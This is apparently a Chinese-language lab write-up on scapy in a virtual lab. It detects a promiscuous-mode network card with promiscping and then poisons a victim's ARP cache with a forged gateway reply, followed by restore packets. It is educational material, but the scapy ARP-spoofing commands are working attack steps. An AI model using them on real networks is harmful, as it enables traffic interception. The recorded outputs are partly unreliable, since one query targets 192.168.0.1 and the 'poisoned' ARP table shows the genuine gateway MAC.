# 网络拓扑
## 网络中的节点基本信息如下
- 攻击者主机(kali-demo)
    - 08:00:27:11:5a:80 / eth0
    - 172.16.111.127
    - 
- 受害者主机(kali-victim)
    - 08:00:27:a0:1f:82 / eth0
    - 172.16.111.129
    - 
- 网关(debian-gateway)
    - 08:00:27:d4:ab:73 / enp0s9
    - 172.16.111.1
    - 
## 实验准备
### 安装scapy
在攻击者主机上提前安装好 scapy 
```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip
pip3 install scapy[complete]
```
## 实验一：检测局域网中的异常终端
```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:a0:1f:82 brd ff:ff:ff:ff:ff:ff
```

```
# 在攻击者主机上开启 scapy
scapy
```

```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.129")
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:a0:1f:82 brd ff:ff:ff:ff:ff:ff
```

```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.129")
```

```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```
## 实验二：手工单步“毒化”目标主机的 ARP 缓存
- 以下代码在攻击者主机上的 scapy 交互式终端完成。
```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.0.1")
# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
```

```
# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.129
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.129", hwdst="08:00:27:11:5a:80")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

- 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
```
ip neigh
# 172.16.111.127 dev eth0 lladdr 08:00:27:11:5a:80 STALE
# 172.16.111.1 dev eth0 lladdr 08:00:27:d4:ab:73 STALE
```

- 回到攻击者主机上的 scapy 交互式终端继续执行命令。
```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:d4:ab:73", pdst="172.16.111.129", hwdst="08:00:27:a0:1f:82")
sendp(restorepkt1, count=100, inter=0.2)
```

- 此时在受害者主机上准备“刷新”网关 ARP 记录。
```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
```

```
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

## ps
由于虚拟机多次崩溃 导致新建数次 因此地址前后不一致 没有重新截图 